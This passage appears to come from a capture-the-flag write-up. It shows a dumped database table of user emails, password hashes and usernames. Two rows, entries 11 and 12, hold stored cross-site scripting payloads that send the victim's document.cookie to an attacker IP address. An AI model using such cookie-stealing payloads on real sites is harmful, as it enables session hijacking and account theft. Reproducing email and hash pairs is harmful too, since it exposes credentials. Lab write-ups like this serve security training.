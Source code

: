 ```bash
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson                                                                           |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry                                                                              |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer                                                                              |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | peter                                                                              |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565 | angel                                                                              |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad | jobert                                                                             |
| 11      | 1234@1234                     | 81dc9bdb52d04dc20036dbd8313ed055 | <script>document.location='http://10.10.14.232:2323/?c='+document.cookie;</script> |                                                           
| 12      | lol@htb.com                   | 81dc9bdb52d04dc20036dbd8313ed055 | <script>document.location='http://10.10.14.160:1110/?c='+document.cookie;</script> |                                                           

```

![[Pasted image 20250210152417.png]]]]
